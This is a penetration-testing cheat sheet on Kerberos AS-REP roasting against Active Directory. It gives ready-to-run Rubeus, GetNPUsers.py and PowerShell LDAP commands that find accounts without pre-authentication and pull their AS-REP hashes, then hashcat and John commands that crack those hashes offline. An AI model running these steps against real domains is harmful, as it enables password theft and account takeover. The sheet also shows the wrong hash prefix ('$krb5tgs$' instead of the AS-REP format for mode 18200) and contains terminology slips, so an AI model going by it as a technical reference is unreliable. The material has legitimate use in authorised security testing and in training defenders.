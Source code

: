 # Active Directory - Kerberos AS_REP roasting

### Overview

An ASP_REP roasting attack is an attack on the `Kerberos` authentication
protocol that involves compromising the password of an user account that do not
require `Kerberos` pre-authentication.

The attack is based on the fact that the `KRB_AS_REP` response, in reply from
the `KDC (Key Distribution Center)` for an initial authentication request
`KRB_AS_REQ` to the `Authentication Service (AS)`, contains ciphertext
encrypted using the client's secret key.

By default, the `KRB_AS_REQ` must include a timestamp encrypted with the
client's secret key, in order to permit the verification of the user identity
before the `KDC` returns a `KRB_AS_REP` response. This verification is omitted
for user accounts that do not require `Kerberos` pre-authentication, i.e
accounts with the account property `DONT_REQ_PREAUTH`. These user accounts
secrets are exposed to offline cracking, against the ciphertext, attack that
are much faster and can not be time restricted.

### Automated DONT_REQ_PREAUTH user accounts discovery and export of AS-REP responses

The following tools can be used to automate the discovery of user accounts that
do not require `Kerberos` pre-authentication and the request and export of
`KRB_AS_REQ` response for offline cracking.

In order to enumerate the domain user accounts, `Rubeus` must be started in a
domain authenticated security context or provided working domain credentials.

```
Rubeus.exe asreproast /outfile:<FILE>
Rubeus.exe asreproast /format:john /outfile:<FILE>

Rubeus.exe asreproast /creduser:'<DOMAIN_FQDN>\<USERNAME>' /credpassword:'<PASSWORD>' /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /outfile:<FILE_PATH>
```

### DONT_REQ_PREAUTH user accounts discovery

The following tools can be used to discover user accounts that do not require
`Kerberos` pre-authentication:

```
Get-ADUser -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"
Get-ADUser -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredential> -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"

Get-NetUser -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"
Get-NetUser -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredential> -LdapFilter "(&(objectclass=user)(objectcategory=user)(useraccountcontrol:1.2.840.113556.1.4.803:=4194304))"
```

### Request and export of KRB_AS_REP responses

The following tools can be used to request and export `KRB_AS_REP` for user
accounts that do not require `Kerberos` pre-authentication:

```
Rubeus.exe asreproast /user:<USERNAME> /outfile:<FILE>
Rubeus.exe asreproast /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /user:<USERNAME> /outfile:<FILE>

GetNPUsers.py '<DOMAIN>/' -usersfile <USERNAMES_FILE>
GetNPUsers.py '<DOMAIN>/' -dc-ip <DC_HOSTNAME | DC_IP> -usersfile <USERNAMES_FILE> -format john
```

### Offline cracking of KRB_AS_REP responses

Both `John the Ripper` (magnumripper fork) and `hashcat` can be used to crack
the `KRB_AS_REP` responses.

The hash needs to respect the following format to be recognized `hashcat`:

```
# ENCRYPTION_TYPE 23 = RC4
# ENCRYPTION_TYPE 17 = AES128
# ENCRYPTION_TYPE 18 = AES256

$krb5tgs$<ENCRYPTION_TYPE>$*<USERNAME>@<DOMAIN>:$85DA[...]
```

Depending on the tool used, the hash retrieved may need to be manually updated.

The following commands can be used to crack the `KRB_AS_REP` responses:

```
# Its recommended to use Hashcat on a Windows OS for better performance due to driver compatibility
hashcat64.exe -m 18200 -a 0 [-r <RULE_FILE>] '[<HASH> | <HASHFILE>]' <WORDLIST>

john --wordlist=<WORDLIST> <HASHFILE>
```
